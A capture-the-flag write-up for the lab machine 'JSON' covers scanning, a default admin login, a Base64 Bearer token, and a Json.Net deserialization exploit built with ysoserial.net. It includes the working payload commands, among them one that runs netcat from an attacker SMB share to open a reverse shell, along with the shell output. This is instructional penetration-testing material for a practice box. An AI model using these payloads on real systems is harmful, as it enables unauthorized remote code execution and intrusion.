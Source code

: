 # Exercise: Exploiting .NET deserialization on the box JSON

In this machine, an nmap scan reveals that it is a Windows box with FTP \(port 21\), HTTP \(port 80\) and SMB \(port 139,445\) running.

┌─\[oztechmuse@parrot\]─\[~/boxes/JSON\]

└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- json.htb -oA nmap/full-tcp

PORT STATE SERVICE VERSION

21/tcp open ftp FileZilla ftpd

\| ftp-syst:

\|\_ SYST: UNIX emulated by FileZilla

80/tcp open http Microsoft IIS httpd 8.5

\| http-methods:

\| Supported Methods: GET HEAD OPTIONS TRACE

\|\_ Potentially risky methods: TRACE

\|\_http-server-header: Microsoft-IIS/8.5

\|\_http-title: Json HTB

135/tcp open msrpc Microsoft Windows RPC

139/tcp open netbios-ssn Microsoft Windows netbios-ssn

445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds

5985/tcp open http Microsoft HTTPAPI httpd 2.0 \(SSDP/UPnP\)

\|\_http-server-header: Microsoft-HTTPAPI/2.0

\|\_http-title: Not Found

47001/tcp open http Microsoft HTTPAPI httpd 2.0 \(SSDP/UPnP\)

\|\_http-server-header: Microsoft-HTTPAPI/2.0

\|\_http-title: Not Found

49152/tcp open msrpc Microsoft Windows RPC

49153/tcp open msrpc Microsoft Windows RPC

49154/tcp open msrpc Microsoft Windows RPC

49155/tcp open msrpc Microsoft Windows RPC

49156/tcp open msrpc Microsoft Windows RPC

49157/tcp open msrpc Microsoft Windows RPC

49158/tcp open msrpc Microsoft Windows RPC

Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

The website on port 80 reveals a login page that takes the common credentials "admin" and "admin" as username and password.

If you turn on the Burp proxy in FoxyProxy but leave Intercept off in Burp Suite, all of the calls from the browser will go through the proxy and be available in the HTTP History tab. When you click submit after entering the username and password, the page does a POST request to the endpoint /api/token, providing the username and password that was entered. The response to this POST returns a status code of 202 \(Accepted\) and provides a Set-Cookie header:

Set-Cookie: OAuth2=eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=; expires=Thu, 22-Oct-2020 08:44:50 GMT; path=/

The next request is a GET request for the page /index.html and the cookie OAuth2 is now set. After getting script and HTML files, a GET request is made to /api/Account. Interestingly, here a second header, "Bearer" is used with the same contents as the OAuth2 cookie contents:

GET /api/Account/ HTTP/1.1

Host: 10.10.10.158

User-Agent: Mozilla/5.0 \(Windows NT 10.0; rv:78.0\) Gecko/20100101 Firefox/78.0

Accept: application/json, text/plain, \*/\*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Bearer: eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=

DNT: 1

Connection: close

Referer: [http://10.10.10.158/index.html](http://10.10.10.158/index.html)

Cookie: OAuth2=eyJJZCI6MSwiVXNlck5hbWUiOiJhZG1pbiIsIlBhc3N3b3JkIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMiLCJOYW1lIjoiVXNlciBBZG1pbiBIVEIiLCJSb2wiOiJBZG1pbmlzdHJhdG9yIn0=

This request returns details of the account:

{"Id":1,"UserName":"admin","Password":"21232f297a57a5a743894a0e4a801fc3","Name":"User Admin HTB","Rol":"Administrator"}

Which is actually what you get if you take the Base64 in the Bearer header and decode it.. It is worth noting that the Bearer header suggests that this is Bearer Authentication which is defined as part of the OAuth 2.0 standard. However, normally, the header is actually formatted as:

Authentication: Bearer &lt;token&gt;

The token in this case would also be encrypted or at least cryptographically signed as per the standard and clearly it is not here.

To explore what the Bearer header does, if you change the content of the Bearer header by putting a non-numerical character in the Id field, say "1a" and the re-encode it using Base64. an error is returned by the application:

{"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object","ExceptionType":"System.Exception","StackTrace":null}

Here you get a clue about a possible vulnerability. The message "Cannot deserialize Json.Net Object" suggests a deserialization attack may be possible.

There is a series of utilities called YSoSerial.Net \([https://github.com/pwntester/ysoserial.net\](https://github.com/pwntester/ysoserial.net\)\) that can be used to generate .NET deserialization attacks. You can download the latest release of the program \([https://github.com/pwntester/ysoserial.net/releases/download/v1.34/ysoserial-1.34.zip\](https://github.com/pwntester/ysoserial.net/releases/download/v1.34/ysoserial-1.34.zip\)\).

Using YSoSerial.Net, we can test that the vulnerability can be exploited by trying to ping back to our machine. Given that this is .NET, although it could be done on Parrot SOSec, it is easier to do this on a Windows VM. you can provide the following parameters to ysoserial.exe specifying the output as base64 and the command you want to run as a ping to our machine:

./ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "ping -n 5 10.10.14.3"

Taking the output from this and putting it in the Bearer header, you get an exception from the server, but the pings come back:

─\[✗\]─\[rin@parrot\]─\[~/boxes/JSON\]

└──╼ $sudo tcpdump -i tun0 icmp

tcpdump: verbose output suppressed, use -v or -vv for full protocol decode

listening on tun0, link-type RAW \(Raw IP\), capture size 262144 bytes

15:00:46.782092 IP 10.10.10.158 &gt; 10.10.14.3: ICMP echo request, id 1, seq 1, length 40

15:00:46.782231 IP 10.10.14.3 &gt; 10.10.10.158: ICMP echo reply, id 1, seq 1, length 40

To get a reverse shell on the box, you can do as you did in Bankrobber and use an SMB share to give access to Netcat \(nc.exe\) and have a listener on our box.

Changing the ysoserial command to the following:

.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "\10.10.14.3\share\nc64.exe 10.10.14.3 6001 -e cmd.exe"

We then get a reverse shell:

─\[rin@parrot\]─\[~/boxes/JSON\]

└──╼ $nc -lvnp 6001

listening on \[any\] 6001 ...

connect to \[10.10.14.3\] from \(UNKNOWN\) \[10.10.10.158\] 49780

Microsoft Windows \[Version 6.3.9600\]

\(c\) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv&gt;whoami

whoami

json\userpool

c:\windows\system32\inetsrv&gt;

